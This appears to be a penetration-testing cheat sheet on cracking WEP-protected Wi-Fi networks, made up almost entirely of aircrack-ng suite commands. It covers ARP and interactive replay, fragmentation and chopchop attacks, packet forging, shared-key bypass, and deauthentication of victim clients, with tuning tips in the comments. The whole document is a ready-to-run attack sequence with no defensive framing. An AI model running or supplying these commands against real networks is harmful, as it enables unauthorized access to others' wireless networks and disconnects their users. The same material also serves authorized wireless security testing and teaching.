 # Wifi - WEP Cracking

## Cracking WEP with a Client

### ARP Request Replay Attack

> Attack the ACCESS POINT

```powershell
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng mon0 -c 3 --bssid $AP_MAC -w arpreplay # dump traffic

# Fake authentication for a more reliable attack
aireplay-ng -1 0 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0

# ARP replay attack
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0

# Deauthentication
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0

# Cracking
aircrack-ng arpreplay.cap
```

### Interactive replay attack

> Attack a client to force new packets 0841 attack, or interactive packet replay is a WEP attack that allows for packet injection when ARP replay is not available/working.

```powershell
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w clearcap mon0 # dump traffic

# fake authentication for a more reliable attack
aireplay-ng -1 0 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0

# interactive replay attack (min arp 68, max arp 86)
aireplay-ng -2 -b $AP_MAC -d FF:FF:FF:FF:FF -f 1 -m 68 -n 86 mon0 # interactive - natural selection of a packet
aireplay-ng -2 -b $AP_MAC -t 1 -c FF:FF:FF:FF:FF:FF -p 0841 mon0  # interactive - force create a packet
# Packet selection (ARP packets met the characteristics): 
# - APs will always repeat packets destined to the broadcast
# - The packet will have the ToDS (To Distribution System) bit set to 1
# answer "y" multiple times

# cracking require ~> 250000 IVs
aircrack-ng -0 -z -n 64 clientwep-01.cap
    * -z: PTW attack
    * -n: number of bits in the WEP key

# backup file with an ARP packet
aireplay-ng -2 -r replay.cap mon0
```

## Cracking WEP without a Client

* Chopchop & Fragmentation attack => PRGA, generate more packets with weak IVs
* Need an AP configured with open system authentication

Prerequisite:

```powershell
# put into monitor mode on our desired channel
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w wepcrack mon0 # see no client

# fake authentication attack with association timing (every 60s try to reassociate)
aireplay-ng -1 60 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0 # should see a client in airodump
# -1 6000 to avoid a time out.
```

### Fragmentation attack

> Goal: 1500 bytes of PRGA Atheros does not generate the correct packets unless the wireless card is set to the MAC address you are spoofing.

```powershell
# attacker mac must be associated (fake auth)
# Press "Y"
aireplay-ng -5 -b $AP_MAC -h $ATTACKER_MAC mon0

# use our PRGA from the fragmentation attack to generate an ARP request
# SRC_ADDR: 192.168.1.100 
# DST_ADDR: 192.168.1.255, should not exist (broadcast address)
packetforge-ng -0 -a $AP_MAC -h $ATTACKER_MAC -l $SRC_ADDR -k $DST_ADDR -y frag.xor -w inject.cap
# -k: the destination IP i.e. in ARP, this is "Who has this IP"
# -l: the source IP i.e. in ARP, this is "Tell this IP"

# check the packet
tcpdump -n -vvv -e -s0 -r inject.cap

# inject our crafted packet
aireplay-ng -2 -r inject.cap mon0

# crack the WEP key
# Aircrack-ng will auto-update when new IVs are available
aircrack-ng -0 wepcrack

# if 64-bit WEP is used, cracking time < 5 minutes 
# switch to 128-bit keys after 600000 IVs
# use the `-f 4` after 2000000
aircrack-ng -n 64 <capture filename>
```

### KoreK Chopchop attack

> Can't be used for every AP, might work when fragmentation fails Much slower than the fragmentation attack

```powershell
# chopchop attack: -4
# out decrypted: .cap
# out prga: .xor
# Press "Y" (choose a small packet)
aireplay-ng -4 -b $AP_MAC -h $ATTACKER_MAC mon0

# check the packet and find the network addresses
tcpdump -n -vvv -e -s0 -r inject.cap

# use our PRGA from the fragmentation attack
# SRC_ADDR: 192.168.1.100 
# DST_ADDR: 192.168.1.255, should not exist (broadcast address)
packetforge-ng -0 -a $AP_MAC -h $ATTACKER_MAC -l $SRC_ADDR -k $DST_ADDR -y prga.xor -w chochop_out.cap

# inject our crafted packet
aireplay-ng -2 -r chochop_out.cap mon0

# crack the WEP key
aircrack-ng -0 wepcrack
```

## Bypassing WEP Shared Key Authentication SKA

> By default, most wireless drivers will attempt open authentication first. If open authentication fails, they will proceed to try shared authentication.

Prerequisite:

* Authentication: Shared Key
* When Fake Authentication => `AP rejects open-system authentication`

```powershell
# put into monitor mode on our desired channel
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w sharedkey mon0

# deauthentication attack on the connected client
# airodump should display SKA under the AUTH column
# PRGA file will be saved as xxxx.xor
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
# TO CHECK aireplay-ng -0 10 –a $AP_MAC -c $VICTIM_MAC mon0

# fake authentication attack with association timing (every 60s try to reassociate)
# should display switching to Shared Key Authentication
# If you are using a PRGA  file obtained  from a chopchop attack, make sure that it is at least 144 bytes long
# If you have "Part2:  Association  Not  answering...(Step3)" -> spoof the mac address used to fake auth
aireplay-ng -1 60 -e $AP_SSID -y sharedkey.xor -b $AP_MAC -h $ATTACKER_MAC mon0

# ARP replay attack
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0

# deauthentication attack on the connected client
# speed the ARP attack process using deauth
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
# TO CHECK: aireplay-ng –-deauth 1 –a $AP_MAC -h <FakedMac> wlan0mon

# crack the WEP key
aircrack-ng sharedkey.cap
```

## References

* [TODO](TODO)
